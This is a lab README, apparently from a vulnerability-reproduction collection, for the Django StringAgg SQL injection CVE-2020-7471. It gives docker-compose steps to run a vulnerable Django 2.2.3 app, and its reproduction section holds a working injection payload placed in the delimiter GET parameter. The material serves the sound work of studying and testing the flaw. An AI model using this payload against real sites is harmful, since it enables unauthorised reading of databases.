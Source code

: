 # Django StringAgg SQL Injection Vulnerability（CVE-2020-7471）

[中文版本(Chinese version)](README.zh-cn.md)

Django released a security update on February 3, 2020, which fixes a SQL injection vulnerability in the StringAgg aggregation function.

Reference link:

- https://www.djangoproject.com/weblog/2020/feb/03/security-releases/

The vulnerability requires the developer to use StringAgg function. Moreover, the input of the queryset with a user-specified parameter delimiter can be controlled.

## Start Vulnerability Application

Compile and start a vulnerable Django 2.2.3 by executing the following command:

```
docker-compose build
docker-compose up -d
```

After the server is started, you can see a web page at `http://your-ip:8000`.

This page use `StringAgg` function of the Postgresql database to aggregate news based on the concatenation entered by the user, such as `http://your-ip:8000/?d=-` to get the result of aggregating data according to the concatenator `-`:

![](1.png)

## Vulnerability Reproduce

Add `d=-') AS "group" FROM "vuln_collection" GROUP BY "vuln_collection"."id" LIMIT 1--`to the GET parameter, where `vuln` is your app and `collection` is the models.

`http://127.0.0.1:8000/?d=-') AS "group" FROM "vuln_collection" GROUP BY "vuln_collection"."id" LIMIT 1--`

You can see that the sql statement has been injected successfully, and you can get the informatin:

![](2.png)
